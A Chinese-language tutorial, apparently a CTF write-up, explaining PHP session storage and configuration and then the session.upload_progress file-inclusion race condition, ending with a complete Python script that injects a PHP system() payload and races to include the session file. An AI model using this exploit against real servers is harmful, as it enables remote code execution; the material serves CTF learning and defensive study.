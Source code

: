 # PHP的session文件包含与竞争

lamaper@qq.com

[lamaper - 博客园 (cnblogs.com)](https://www.cnblogs.com/lamaper/)

## 一、什么是Session

> Session：在计算机中，尤其是在网络应用中，称为“会话控制”。Session对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的Web页之间跳转时，存储在Session对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。

由于html的特性，多个请求之间无关联，如果在/xxx.html中为登录状态，那么跳转到/yyy.html就会变成默认的未登录状态，seesion的出现是为了弥补这一缺陷，让每一个用户在多个请求中状态一致。

session是保存在服务端的，与之相对的是cookie，cookie是保存在客户端的。每当用户使用一浏览器开始对服务器发出请求，一个session就会被创建，当用户关闭浏览器结束访问，session会被删除。所以用同一个ip访问同一个网站，如果浏览器不同，用户状态也是不同的，所以session创建的标准是浏览器而不是ip。session不随刷新页面而消失。

> 以下内容以php举例

每次我们访问一个页面，如果有开启session，也就是有session_start() 时，就会自动生成一个session_id 来标注是这次会话的唯一ID，同时也会自动往cookie里写入一个名字为PHPSESSID的变量，它的值正是session_id，当这次会话没结束，再次访问的时候，服务器会去读取这个PHPSESSID的cookie是否有值有没过期，如果能够读取到，则继续用这个session_id，如果没有，就会新生成一个session_id，同时生成PHPSESSID这个cookie。由于默认生成的这个PHPSESSID cookie是会话，也就是说关闭浏览器就会过期掉，所以，下次重新浏览时，会重新生成一个session_id。

这个session是32位的。

session的存储地址在``php.ini``文件中会被标明，一般最后一级目录会是``\tmp``，当一个会话开始的时候，服务器会在目录下写入``sess_xxxxxxxxxx``文件，下划线后的就是这个会话的session_id。

## 二、一些session的服务端操作

一般我们通过``$_SESSION['<变量名>'] = ....``将一些数据存储在session中。这些数据最终会被以序列化后的格式存储在sess_文件中。session.save_handler = files 表示的是session的存储方式，默认的是files文件的方式保存。

### 一些常用的函数与参数

``save_handler ``不仅仅只能用文件files，还可以用我们常见的memcache 和 redis 来保存。

``session.use_cookies`` 默认是1，表示会在浏览器里创建值为PHPSESSID的session_id，session.name = PHPSESSID 找个配置就是改这个名字的，这个名称可以进行修改，如修改成PhPP，就会在浏览器cookie中创建PhPP的sessionid。

``session.auto_start = 0 ``用来是否需要自动开启session，默认是不开启的，所有我们需要在代码中用到session_start()；函数开启，如果设置成1，那么session_id 也会自动就生成了。

``session.cookie_lifetime = 0 ``这个是设置在客户端生成PHPSESSID这个cookie的过期时间，默认是0，也就是关闭浏览器就过期，下次访问，会再次生成一个session_id。所以，如果想关闭浏览器会话后，希望session信息能够保持的时间长一点，可以把这个值设置大一点，单位是秒。

``gc_divisor``, ``gc_probability``, ``gc_maxlifetime ``是回收这些sess_xxxxx 的文件，它是按照这3个参数，组成的比率，来启动GC删除这些过期的sess文件。gc_maxlifetime是sess_xxx文件的过期时间。

## 三、session恶意代码

在``phpinfo()``中存在这些数据

```php
1,session.save_handler	files	files
    表示session以文件的形式存储。
2,session.save_path	/tmp	/tmp
    表示session存储目录在/tmp下。
3,session.serialize_handler	php	php
    表示反序列化和序列号的处理器是PHP。
4,session.upload_progress.cleanup	On	On
    表示文件上传结束后，php会立即清除对应session文件中的内容。
5,session.upload_progress.enabled	On	On
    表示upload_progress功能启动，即浏览器向服务器上传文件时，php会把此次文件上传的详细信息存储在session中。
6,session.upload_progress.freq	1%	1%
7,session.upload_progress.min_freq	1	1
    freq 和 min_freq 两项用来设置服务器端对进度信息的更新频率。合理的设置这两项可以减轻服务器的负担。
8,session.upload_progress.name	PHP_SESSION_UPLOAD_PROGRESS	PHP_SESSION_UPLOAD_PROGRESS
9,session.upload_progress.prefix	upload_progress_	upload_progress_
    prefix 和 name 两项用来设置进度信息在session中存储的变量名/键名
10,session.use_cookies	On	On
    表示使用cookie记录sessionid。
11,session.use_only_cookies	On	On
    表示是否在客户端仅仅使用 cookie 来存放会话 ID。
12,session.use_strict_mode	Off	Off
    值为off，表示Cookie中的sessionid可控。
```

一般来说PHP_SESSION_UPLOAD_PROGRESS是开的，所以我们一般会往这个键值中写入恶意代码，然后让整个sess文件被文件包含后解析代码，最终执行代码。

以[ NSSCTF - 第五空间 2021\EasyCleanup (ctfer.vip)](https://www.ctfer.vip/problem/336)为例

服务端代码出现

```php
if(isset($_GET['file'])){ 
    if(strlen($_GET['file']) > 15 | filter($_GET['file'])) exit("hacker"); 
    include $_GET['file']; 
} 
```

我们考虑进行文件包含，之后使用其他方法先对phpinfo进行查看，观察是否关闭了``session.upload_progress.cleanup``，若没有则可以直接使用burp上传恶意代码，若存在则需要不停上传同一个session来确保恶意代码能够执行。

## 四、脚本编写

我们一般通过python进行脚本编写（python版本3.8+）

### 首先导入两个库

```python
import threading
import requests
```

requests用来进行网络请求，threading用来分离线程，做到不断循环上传session从而竞争。

### 定义基本信息

```python
target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置
```

### 编写竞争函数

```python
def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
```

不停的上传同样的post请求。将结果存于res.txt中。

### 编写读取信息函数

```python
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break
```

### main函数

```python
if __name__ == '__main__':
    session = requests.session()
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

### 完整代码

```python
import threading
import requests

target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置

def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
        
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break

if __name__ == '__main__':
    session = requests.session()
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

### 五、参考文献与拓展

[什么是session | 许小珂 (xuxiaoke.com)](https://www.xuxiaoke.com/phpnote/35.html)

[从第五空间 2021\EasyCleanup认识php_session_Aiwin-Lau的博客-CSDN博客](https://blog.csdn.net/weixin_53090346/article/details/125037416)

[PHP Session.upload_progress - chalan630 - 博客园 (cnblogs.com)](https://www.cnblogs.com/chalan630/p/14147602.html)

[PHP：会话上传进度 （php官网）](https://www.php.net/manual/en/session.upload-progress.php#:~:text=Session Upload Progress. When the session.upload_progress.enabled INI option,(via XHR for example) to check the status.)

[对于session.upload_progress漏洞的理解_huamanggg的博客-CSDN博客](https://blog.csdn.net/m0_51078229/article/details/114440061)

[ 详解利用session进行文件包含_合天网安实验室的博客-CSDN博客_session文件包含](https://blog.csdn.net/qq_38154820/article/details/120300273)

